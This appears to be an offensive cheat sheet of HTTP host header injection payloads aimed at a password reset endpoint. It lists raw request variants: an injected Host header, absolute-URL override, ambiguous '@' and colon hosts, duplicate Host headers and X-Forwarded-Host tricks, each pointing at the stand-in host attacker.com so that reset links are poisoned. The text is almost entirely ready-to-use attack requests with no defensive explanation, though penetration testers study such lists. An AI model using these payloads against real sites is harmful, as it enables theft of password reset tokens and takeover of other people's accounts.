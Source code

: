 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com

POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com
````
